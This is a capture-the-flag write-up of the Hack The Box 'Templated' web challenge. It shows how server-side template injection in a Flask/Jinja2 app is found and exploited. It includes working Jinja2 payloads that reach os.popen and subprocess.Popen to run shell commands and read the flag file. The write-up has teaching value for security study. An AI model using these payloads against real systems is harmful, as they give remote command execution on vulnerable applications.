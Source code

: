 ```yaml
---
title: HTB Templated - Writeup
date: "2021-12-26"
draft: false
tags: ["hackthebox", "challenges", "web", "js", "writeup"]
---
```


## Navigating through the website

Requested: `GET /invalid` -> we got `invalid`

![](/img/templated/Pasted%20image%2020211226121920.png)

## Verifying if SSTI is possible

Requested: `GET /invalid{{7*7}}` -> we got `invalid49` instead of `invalid{{7*7}}`

![](/img/templated/Pasted%20image%2020211226121844.png)

We know that it is Jinja2 and Flask, so we can use their payload.

## Getting the flag

Requested: `GET /{{config.__class__.__init__.__globals__['os'].popen('cat%20flag.txt').read()}}` -> we got the flag

![](/img/templated/Pasted%20image%2020211226182358.png)

### Alternative
**Finding `subprocess.Popen` index.**

1. `GET /{{''.__class__.mro()[1].__subclasses__()[100:]` -> Popen is there in the list
![](/img/templated/Pasted%20image%2020211226184612.png)
2. `GET /{{''.__class__.mro()[1].__subclasses__()[300:]` -> Popen is there in the list
3. `GET /{{''.__class__.mro()[1].__subclasses__()[500:]` -> Internal Server Error
4. `GET /{{''.__class__.mro()[1].__subclasses__()[400:]` -> Popen is there in the list
5. `GET /{{''.__class__.mro()[1].__subclasses__()[450:]` -> Popen is NOT there in the list
6. `GET /{{''.__class__.mro()[1].__subclasses__()[414]` -> Popen exists

`GET /{{''.__class__.mro()[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}` 




References:
- https://blog.nvisium.com/p263
- https://blog.nvisium.com/p255
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection